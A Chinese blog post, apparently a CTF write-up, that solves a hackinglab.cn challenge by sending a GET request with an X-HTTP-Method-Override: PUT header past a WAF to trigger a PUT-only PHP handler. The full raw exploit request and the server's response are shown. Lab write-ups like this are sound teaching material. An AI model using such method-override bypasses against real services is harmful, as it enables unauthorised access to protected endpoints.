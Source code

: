 ```yaml
---
layout: post
title: '不拦截攻击的奇怪的WAF-writeup'
date: 2020-04-01
author: 吃饭去
cover: '../assert'
tags: web
typora-root-url: a\a
typora-copy-images-to: ..\assets\img
---
```


# 不拦截攻击的奇怪的WAF-writeup

平时一起打手游的同事突然来问了一个题目，来自网络安全实验室（http://hackinglab.cn/），第一感觉是很老的题目，想着直接搜下writeup就可以了。结果一直没找到，只好自己动手做一下了。



题目链接：http://lab1.xseclab.com/base15_f6a5ee4d1e17952a3411932ab88f8e93/index.php

一进去就给了源码，看着一点难度都没有。

```php
I am backend Server;Only Accept PUT Method!<!--<?php
require_once "config.php";
if($_SERVER['REQUEST_METHOD']!="PUT") {
    
    echo "I am backend Server;Only Accept PUT Method!<!--";
    echo file_get_contents(__FILE__);
    die();
}

$post_data = json_decode(file_get_contents("php://input"),true);
if($post_data['token']==="5cb7a68628d276261a89f7807f671415"){
    echo "小红的年龄是: ".$flag;
}
```

但是直接改PUT会提示只允许使用GET，也就是说要让服务器认为你是GET，并且通过`$_SERVER['REQUEST_METHOD']!="PUT"`的校验。

![1585730312588](/../../../assets/img/1585730312588.png)

只好google了下，找到了`X-HTTP-Method-Override`，可以在GET/POST方法下模拟PUT/DELETE等RESTFUL API，感觉就是这个了~

最后的payload:

```
GET /base15_f6a5ee4d1e17952a3411932ab88f8e93/index.php HTTP/1.1
Host: lab1.xseclab.com
Proxy-Connection: keep-alive
Cache-Control: max-age=0
X-HTTP-Method-Override: PUT
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.81 Safari/537.36 SE 2.X MetaSr 1.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=f9eb65ba669fd0c49691808834411551
Content-Length: 44

{"token":"5cb7a68628d276261a89f7807f671415"}


HTTP/1.1 200 OK
Server: nginx
Date: Wed, 01 Apr 2020 08:08:11 GMT
Content-Type: text/html;charset=utf-8
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
WAF: PASS
Via: 3832
Content-Length: 46

小红的年龄是: flagis: **************
```

















